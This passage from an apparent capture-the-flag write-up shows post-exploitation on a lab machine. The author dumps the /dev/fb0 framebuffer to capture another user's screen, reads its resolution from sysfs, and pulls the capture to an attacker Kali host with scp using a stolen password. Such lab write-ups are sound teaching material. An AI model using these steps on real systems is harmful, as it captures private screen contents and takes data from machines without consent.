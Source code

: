 

The `/dev/fb0` device is interesting. `fb0` is the frame buffer, which
[provides an abstraction for the video
hardware](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt).
We can `cat` it and get a file:



    moshe@falafel:/dev/shm/.z$ cat /dev/fb0 > screenshot.raw
    moshe@falafel:/dev/shm/.z$ ls -l screenshot.raw
    -rw-rw-r-- 1 moshe moshe 4163040 May 18 03:52 screenshot.raw



To view this file, we'll also need the screen resolution, which can be
found in `/sys/class/graphics/fb0/`:



    moshe@falafel:~$ ls -l /sys/class/graphics/fb0/
    total 0
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 bits_per_pixel
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 blank
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 bl_curve
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 console
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 cursor
    -r--r--r-- 1 root root 4096 Jun 20 16:23 dev
    lrwxrwxrwx 1 root root    0 Jun 20 16:23 device -> ../../../0000:00:0f.0
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 mode
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 modes
    -r--r--r-- 1 root root 4096 Jun 20 16:23 name
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 pan
    drwxr-xr-x 2 root root    0 Jun 20 16:23 power
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 rotate
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 state
    -r--r--r-- 1 root root 4096 Jun 20 16:23 stride
    lrwxrwxrwx 1 root root    0 Jun 20 16:23 subsystem -> ../../../../../class/graphics
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 uevent
    -rw-r--r-- 1 root root 4096 Jun 20 16:23 virtual_size

    moshe@falafel:/dev/shm/.z$ cat /sys/class/graphics/fb0/virtual_size
    1176,885



Copy it back to kali:



    root@kali# cat moshe.password | xclip; scp moshe@10.10.10.73:/dev/shm/.z/screenshot.raw .
    moshe@10.10.10.73's password:
    screenshot.raw                                        100% 4065KB   1.6MB/s   00:02



And open with `Gimp`. In the open dialog, select the file, as well as
the file type of `Raw image data`:
